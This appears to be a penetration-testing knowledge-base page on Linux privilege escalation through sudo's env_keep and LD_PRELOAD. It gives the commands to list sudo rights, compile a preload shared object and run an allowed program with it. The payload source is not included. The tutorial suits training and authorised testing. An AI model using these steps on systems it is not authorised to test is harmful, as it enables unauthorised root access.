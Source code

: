 # LD_PRELOAD
***

- You can configure sudo to inherit specific environment variables from the user's environment. To determine which environment variables are inherited, examine the **env_keep** options.
```sh
sudo -l
```
![alt text](https://github.com/masjadaan/Knowledgebase/blob/main/Penetration_Testing/Exploitation/Linux/Privilege_Escalation/env_varialbes/env_keep.png)

- **LD_PRELOAD** is an environment variable that, when set, loads a shared object before any others when a program is executed. You can create a shared object from code contained in a file named preload.c
```sh
gcc -fPIC -shared -nostartfiles /path/to/preload.c -o /tmp/preload.so
```

- Set the LD_PRELOAD environment variable to the full path of the newly created shared object.
```sh
sudo LD_PRELOAD=/tmp/preload.so nano
```

- Execute one of the programs that you have permission to run with sudo
